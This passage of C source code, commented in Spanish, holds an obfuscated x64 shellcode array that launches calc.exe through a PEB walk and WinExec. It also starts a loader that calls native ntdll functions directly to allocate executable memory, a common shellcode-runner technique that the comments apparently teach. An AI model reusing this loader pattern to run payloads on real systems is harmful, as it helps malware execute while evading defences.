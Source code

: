 ```c
    PVOID              *BaseAddress,
    ULONG              ZeroBits,
    PSIZE_T             RegionSize,
    ULONG              AllocationType,
    ULONG              Protect);
typedef NTSTATUS(NTAPI* NtFreeVirtualMemoryPtr)(
    HANDLE  ProcessHandle,
    PVOID   *BaseAddress,
    PSIZE_T RegionSize,
    ULONG   FreeType
);

static uint8_t code[] =
    "\x48\x31\xff\x48\xf7\xe7\x65\x48\x8b\x58\x60\x48\x8b\x5b\x18\x48\x8b\x5b\x20\x48\x8b\x1b\x48\x8b\x1b\x48\x8b\x5b\x20\x49\x89\xd8\x8b"
    "\x5b\x3c\x4c\x01\xc3\x48\x31\xc9\x66\x81\xc1\xff\x88\x48\xc1\xe9\x08\x8b\x14\x0b\x4c\x01\xc2\x4d\x31\xd2\x44\x8b\x52\x1c\x4d\x01\xc2"
    "\x4d\x31\xdb\x44\x8b\x5a\x20\x4d\x01\xc3\x4d\x31\xe4\x44\x8b\x62\x24\x4d\x01\xc4\xeb\x32\x5b\x59\x48\x31\xc0\x48\x89\xe2\x51\x48\x8b"
    "\x0c\x24\x48\x31\xff\x41\x8b\x3c\x83\x4c\x01\xc7\x48\x89\xd6\xf3\xa6\x74\x05\x48\xff\xc0\xeb\xe6\x59\x66\x41\x8b\x04\x44\x41\x8b\x04"
    "\x82\x4c\x01\xc0\x53\xc3\x48\x31\xc9\x80\xc1\x07\x48\xb8\x0f\xa8\x96\x91\xba\x87\x9a\x9c\x48\xf7\xd0\x48\xc1\xe8\x08\x50\x51\xe8\xb0"
    "\xff\xff\xff\x49\x89\xc6\x48\x31\xc9\x48\xf7\xe1\x50\x48\xb8\x9c\x9e\x93\x9c\xd1\x9a\x87\x9a\x48\xf7\xd0\x50\x48\x89\xe1\x48\xff\xc2"
    "\x48\x83\xec\x20\x41\xff\xd6";
SIZE_T size_of_code = sizeof(code); // tamaño del shellcode

[[define]] NT_SUCCESS(Status) (((NTSTATUS)(Status)) >= 0)
[[define]] NtCurrentProcess() ((HANDLE)(LONG_PTR)-1)

int main() {

    HMODULE hNtdll = LoadLibraryA("ntdll.dll"); // cargamos ntdll que carga NtosKrnl.exe(el kernel de windows) para obtener su direccion
    if (hNtdll == NULL) {
        puts("Error al cargar la biblioteca ntdll.dll");
        return EXIT_FAILURE;
    }
    // Obtiene la direccion a la función NtAllocateVirtualMemory
    NtAllocateVirtualMemoryPtr NtAllocateVirtualMemory = (NtAllocateVirtualMemoryPtr)(GetProcAddress(hNtdll, "NtAllocateVirtualMemory"));
    if (NtAllocateVirtualMemory == NULL) {
        puts("Error al obtener la direccion a la función NtAllocateVirtualMemory");
        goto exit_free_null;
    }
    // Obtiene la direccion a la función NtFreeVirtualMemory
    NtFreeVirtualMemoryPtr NtFreeVirtualMemory = (NtFreeVirtualMemoryPtr)(GetProcAddress(hNtdll, "NtFreeVirtualMemory"));
    if (NtFreeVirtualMemory == NULL) {
        puts("Error al obtener la direccion a la función NtFreeVirtualMemory");
        goto exit_free_null;
    }

    /*SYSTEM_INFO systemInfo;
    GetSystemInfo(&systemInfo);
    DWORD pageSize = systemInfo.dwPageSize; // obtener el tamaño de pagina*/

    PVOID exec = NULL; // ptr a la memoria reservada
    NTSTATUS Status = NtAllocateVirtualMemory(NtCurrentProcess(), &exec, 0, (PSIZE_T)&size_of_code, MEM_COMMIT, PAGE_EXECUTE_READWRITE);

    if (!NT_SUCCESS(Status)) goto exit_free_null;
```